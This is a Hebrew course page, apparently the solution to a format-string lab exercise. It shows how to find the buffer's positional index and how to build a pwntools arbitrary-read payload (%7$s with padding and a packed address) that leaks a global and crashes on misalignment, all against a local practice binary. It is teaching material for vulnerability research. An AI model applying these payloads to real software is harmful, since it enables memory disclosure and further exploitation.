

repository: AmitPinchasi/amittech · page: מחקר-חולשות/5 - חולשות מחרוזת פורמט/5.2 - קריאה שרירותית מהזיכרון/5.2 - קריאה שרירותית מהזיכרון - פתרון/index.html · generator: mkdocs

## פתרון - קריאה שרירותית מהזיכרון

נעבור על התרגילים לפי הסדר. המטרה: לדלוף תוכן של גלובל ואת בסיס libc דרך קריאות format string בלבד. נניח לאורך הפתרון שהבינארי הוא `leakme` שקימפלנו בלי PIE ובלי canary, עם ASLR של המערכת פעיל.

תזכורת על ההנחות: `buf[128]` על המחסנית, `printf(buf)` vulnerable, כתובות הבינארי (גלובל, GOT) קבועות, libc זזה בכל הרצה בגלל ASLR.

### פתרון תרגיל 1 - מציאת האינדקס של הbuffer

שולחים סמן של 8 בתים ואחריו ספציפיירים פוזיציוניים, ובודקים היכן צף `0x4141414141414141`:

```bash
$ python3 -c 'import sys; sys.stdout.buffer.write(b"AAAAAAAA.%6$p.%7$p.%8$p.%9$p.%10$p\n")' | ./leakme
send format:
AAAAAAAA.0x4141414141414141.0x7ffff7...
```

שמונת ה-`A` נחתו על `%6$p`. מכאן `BUF_INDEX = 6`, כלומר `buf[0..7]` הוא הארגומנט הפוזיציוני השישי, ו-`buf[8..15]` הוא השביעי. אותו דבר מתוך pwntools, נוח לאוטומציה:

```python
from pwn import *

context.binary = elf = ELF('./leakme')

io = process('./leakme')
io.recvuntil(b'send format:')
io.sendline(b'AAAAAAAA.%6$p.%7$p.%8$p.%9$p')
print(io.recvline())        # looking for 0x4141414141414141
io.close()
```

**למה זה עבד / איך להכליל:** האינדקס תלוי במיקום הbuffer על המחסנית ובמהדר, אז מודדים אותו לכל בינארי. הסמן של 8 בתים חייב להיות בדיוק ברוחב סלוט (`AAAAAAAA` = `0x4141414141414141`), אחרת קשה לזהות אותו בין הערכים. מרגע שיודעים את `BUF_INDEX`, האריתמטיקה פשוטה: `buf[8*k .. ]` הוא אינדקס `BUF_INDEX + k`.

### פתרון תרגיל 2 - leak של תוכן הגלובל

קודם מוצאים את כתובת הגלובל (קבועה, כי אין PIE):

```bash
$ objdump -t leakme | grep flag_store
0000000000404080 g     O .bss   0000000000000040 flag_store
```

עכשיו בונים את הקריאה השרירותית. `BUF_INDEX = 6`, אז שמים את הכתובת בסלוט 7 (`buf[8..15]`) ומכוונים עליו `%7$s`. הקידומת חייבת להיות 8 בתים בדיוק כדי שהכתובת תנחת aligned:

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./leakme')
BUF_INDEX = 6

def read_at(io, addr):
    idx = BUF_INDEX + 1                        # the address goes in slot buf[8..15]
    payload = f'%{idx}$s#'.encode()            # '%7$s#'
    payload = payload.ljust(8, b'A')           # padding for alignment: an 8-byte prefix
    payload += p64(addr)                        # the address on a clean slot
    io.sendline(payload)
    return io.recvuntil(b'#', drop=True)

io = process('./leakme')
io.recvuntil(b'send format:')
leak = read_at(io, elf.symbols['flag_store'])
log.success('flag_store = %r', leak)           # b'FLAG{...}'
io.close()
```

הרצה:

```text
[+] flag_store = b'FLAG{replace_me_at_runtime}'
```

מה קורה בלי הalignment? אם נשלח `%7$s` + הכתובת ישר (קידומת של 4 בתים), הכתובת נוחתת ב-`buf[4]`, באמצע סלוט, ו-`%7$s` יקרא בתים שבורים - מצביע זבל ו-Segmentation fault:

```text
[!] Program crashed with SIGSEGV
```

**למה זה עבד / איך להכליל:** `%s` מפרש את הארגומנט כמצביע ומדפיס את המחרוזת שבכתובת. אנחנו שולטים בסלוט הפוזיציוני `buf[8..15]`, אז שתלנו שם את הכתובת שרצינו לקרוא. הסמן `#` מיד אחרי הספציפייר מאפשר לחתוך בדיוק את הפלט של `%s` בלי הזבל שאחריו. הכלל: קידומת בכפולה של 8, כתובת בסוף, ובית סמן לחיתוך נקי.
